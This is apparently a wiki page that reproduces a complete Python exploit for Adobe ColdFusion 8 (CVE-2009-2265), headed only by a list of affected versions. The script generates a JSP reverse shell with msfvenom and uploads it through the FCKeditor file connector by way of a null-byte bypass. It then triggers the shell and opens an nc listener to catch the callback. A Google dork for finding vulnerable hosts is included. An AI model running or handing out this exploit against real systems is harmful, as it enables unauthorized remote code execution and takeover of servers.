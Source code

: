 <languages /> <translate>

影響版本
--------

</translate> Adobe ColdFusion 8

EXP
---

    # Exploit Title: Adobe ColdFusion 8 - Remote Command Execution (RCE)
    # Google Dork: intext:"adobe coldfusion 8"
    # Date: 24/06/2021
    # Exploit Author: Pergyz
    # Vendor Homepage: https://www.adobe.com/sea/products/coldfusion-family.html
    # Version: 8
    # Tested on: Microsoft Windows Server 2008 R2 Standard
    # CVE : CVE-2009-2265

    #!/usr/bin/python3

    from multiprocessing import Process
    import io
    import mimetypes
    import os
    import urllib.request
    import uuid

    class MultiPartForm:

        def __init__(self):
            self.files = []
            self.boundary = uuid.uuid4().hex.encode('utf-8')
            return

        def get_content_type(self):
            return 'multipart/form-data; boundary={}'.format(self.boundary.decode('utf-8'))

        def add_file(self, fieldname, filename, fileHandle, mimetype=None):
            body = fileHandle.read()

            if mimetype is None:
                mimetype = (mimetypes.guess_type(filename)[0] or 'application/octet-stream')

            self.files.append((fieldname, filename, mimetype, body))
            return

        @staticmethod
        def _attached_file(name, filename):
            return (f'Content-Disposition: form-data; name="{name}"; filename="{filename}"\r\n').encode('utf-8')

        @staticmethod
        def _content_type(ct):
            return 'Content-Type: {}\r\n'.format(ct).encode('utf-8')

        def __bytes__(self):
            buffer = io.BytesIO()
            boundary = b'--' + self.boundary + b'\r\n'

            for f_name, filename, f_content_type, body in self.files:
                buffer.write(boundary)
                buffer.write(self._attached_file(f_name, filename))
                buffer.write(self._content_type(f_content_type))
                buffer.write(b'\r\n')
                buffer.write(body)
                buffer.write(b'\r\n')

            buffer.write(b'--' + self.boundary + b'--\r\n')
            return buffer.getvalue()

    def execute_payload():
        print('\nExecuting the payload...')
        print(urllib.request.urlopen(f'http://{rhost}:{rport}/userfiles/file/{filename}.jsp').read().decode('utf-8'))

    def listen_connection():
        print('\nListening for connection...')
        os.system(f'nc -nlvp {lport}')

    if __name__ == '__main__':
        # Define some information
        lhost = '10.10.16.4'
        lport = 4444
        rhost = "10.10.10.11"
        rport = 8500
        filename = uuid.uuid4().hex

        # Generate a payload that connects back and spawns a command shell
        print("\nGenerating a payload...")
        os.system(f'msfvenom -p java/jsp_shell_reverse_tcp LHOST={lhost} LPORT={lport} -o {filename}.jsp')

        # Encode the form data
        form = MultiPartForm()
        form.add_file('newfile', filename + '.txt', fileHandle=open(filename + '.jsp', 'rb'))
        data = bytes(form)

        # Create a request
        request = urllib.request.Request(f'http://{rhost}:{rport}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00', data=data)
        request.add_header('Content-type', form.get_content_type())
        request.add_header('Content-length', len(data))

        # Print the request
        print('\nPriting request...')

        for name, value in request.header_items():
            print(f'{name}: {value}')

        print('\n' + request.data.decode('utf-8'))

        # Send the request and print the response
        print('\nSending request and printing response...')
        print(urllib.request.urlopen(request).read().decode('utf-8'))

        # Print some information
        print('\nPrinting some information for debugging...')
        print(f'lhost: {lhost}')
        print(f'lport: {lport}')
        print(f'rhost: {rhost}')
        print(f'rport: {rport}')
        print(f'payload: {filename}.jsp')

        # Delete the payload
        print("\nDeleting the payload...")
        os.system(f'rm {filename}.jsp')

        # Listen for connections and execute the payload
        p1 = Process(target=listen_connection)
        p1.start()
        p2 = Process(target=execute_payload)
        p2.start()
        p1.join()
        p2.join()
